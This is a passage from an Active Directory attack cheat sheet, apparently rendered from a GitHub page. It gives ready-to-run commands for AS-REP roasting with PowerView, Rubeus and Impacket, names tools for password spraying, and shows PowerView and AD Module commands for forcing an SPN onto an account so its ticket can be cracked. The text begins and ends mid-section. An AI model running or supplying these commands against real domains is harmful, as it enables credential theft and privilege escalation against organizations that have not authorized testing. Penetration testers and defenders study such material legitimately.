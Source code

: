     #Get any ASREPRoastable Users hashes:
    Invoke-ASREPRoast -Verbose
    ```
    
- Using Rubeus:
    
    ```
    #Trying the attack for all domain users
    Rubeus.exe asreproast /format:<hashcat|john> /domain:<DomainName> /outfile:<filename>
    
    #ASREPRoast specific user
    Rubeus.exe asreproast /user:<username> /format:<hashcat|john> /domain:<DomainName> /outfile:<filename>
    
    #ASREPRoast users of a specific OU (Organization Unit)
    Rubeus.exe asreproast /ou:<OUName> /format:<hashcat|john> /domain:<DomainName> /outfile:<filename>
    ```
    
- Using Impacket:
    
    `#Trying the attack for the specified users on the file python GetNPUsers.py <domain_name>/ -usersfile <users_file> -outputfile <FileName>`
    

### **Password Spray Attack**

If we have harvest some passwords by compromising a user account, we can use this method to try and exploit password reuse on other domain accounts.

**Tools:**

- [DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)
- [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)
- [Invoke-CleverSpray](https://github.com/wavestone-cdt/Invoke-CleverSpray)
- [Spray](https://github.com/Greenwolf/Spray)

### **Force Set SPN**

_If we have enough permissions -> GenericAll/GenericWrite we can set a SPN on a target account, request a TGS, then grab its blob and bruteforce it._

- PowerView:
    
    ```
    #Check for interesting permissions on accounts:
    Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentinyReferenceName -match "RDPUsers"}
    
    #Check if current user has already an SPN setted:
    Get-DomainUser -Identity <UserName> | select serviceprincipalname
    
    #Force set the SPN on the account:
    Set-DomainObject <UserName> -Set @{serviceprincipalname='ops/whatever1'}
    ```
    
- AD Module:
    
    ```
    #Check if current user has already an SPN setted
    Get-ADUser -Identity <UserName> -Properties ServicePrincipalName | select ServicePrincipalName
    